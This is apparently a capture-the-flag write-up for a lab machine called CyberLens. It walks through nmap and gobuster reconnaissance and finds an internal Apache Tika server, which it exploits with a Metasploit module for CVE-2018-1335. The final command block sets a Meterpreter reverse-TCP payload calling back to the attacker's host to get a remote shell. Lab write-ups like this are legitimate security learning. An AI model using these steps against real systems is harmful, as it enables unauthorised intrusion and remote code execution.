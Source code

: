 So, simply visit the IP that you get form the machine and you get to a website where you can upload images and get it's metadata.

We do usual stuff, `nmap -sV -sC cyberlens.thm -vv`
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-31 19:48 EDT
Nmap scan report for cyberlens.thm (10.201.76.93)
Host is up (0.32s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
80/tcp   open  tcpwrapped
|_http-title: CyberLens: Unveiling the Hidden Matrix
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped
3389/tcp open  tcpwrapped
|_ssl-date: 2025-07-31T23:57:40+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-31T23:57:26+00:00
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-07-30T23:43:27
|_Not valid after:  2026-01-29T23:43:27
5985/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=7/31%OT=5985%CT=1%CU=40113%PV=Y%DS=5%DC=T%G=Y%TM=688C0
OS:2F5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=RD%II=I%SS=S%
OS:TS=U)SEQ(SP=104%GCD=1%ISR=10F%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR
OS:=10A%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=10C%TI=RD%CI=I%II=RI%TS=
OS:U)SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=RD%TS=U)OPS(O1=M508NW8NNS%O2=M508NW8N
OS:NS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NNS%O6=M508NNS)WIN(W1=FFFF%W2=FFFF
OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M508NW8NNS%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 5 hops

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-31T23:57:30
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   501.15 ms 10.2.0.1
2   ... 4
5   697.25 ms cyberlens.thm (10.201.76.93)

OS and Service detection performed. Please report any incorrect
```

Nothing much directly so we move on to `GoBuster`. Do some path traversal and see if we can find and access any files.
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.201.76.93 -e`

This will give us a lot of interesting stuff. More importantly it give us paths such as `/images`, `/js` and `/css`. I think the `/js` would be interesting. `/images` shows images that are being used across the website.
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.76.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.201.76.93/.htaccess            (Status: 403) [Size: 199]
http://10.201.76.93/.htpasswd            (Status: 403) [Size: 199]
http://10.201.76.93/Images               (Status: 301) [Size: 235] [--> http://10.201.76.93/Images/]
http://10.201.76.93/aux                  (Status: 403) [Size: 199]
http://10.201.76.93/cgi-bin/             (Status: 403) [Size: 199]
http://10.201.76.93/com3                 (Status: 403) [Size: 199]
http://10.201.76.93/com2                 (Status: 403) [Size: 199]
http://10.201.76.93/com1                 (Status: 403) [Size: 199]
http://10.201.76.93/com4                 (Status: 403) [Size: 199]
http://10.201.76.93/con                  (Status: 403) [Size: 199]
http://10.201.76.93/css                  (Status: 301) [Size: 232] [--> http://10.201.76.93/css/]
http://10.201.76.93/images               (Status: 301) [Size: 235] [--> http://10.201.76.93/images/]
http://10.201.76.93/js                   (Status: 301) [Size: 231] [--> http://10.201.76.93/js/]
http://10.201.76.93/lpt1                 (Status: 403) [Size: 199]
```

`http://10.201.76.93/js/image-extractor.js` here, you can see that there is port **61777** and pat `/meta` that is being used internally.

![[Pasted image 20250731201533.png]]

Accessing this gives you a Apache 1.7 Tika server! Boom. Now let's see if there is any security vulnerability for this version of Apache server!

One google search and we have [RCE (CVE-2018–1335)](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/)  
and https://www.exploit-db.com/exploits/47208. Now we use the `metasploit` module. It has a module for this CVE so that's convenient!
```bash
msfconsole
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.76.93
set RPORT 61777
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
set LPORT <your_listener_port>
exploit
```
Run this and you'll have the reverse shell! Nice!
![[Pasted image 20250731203344.png]]

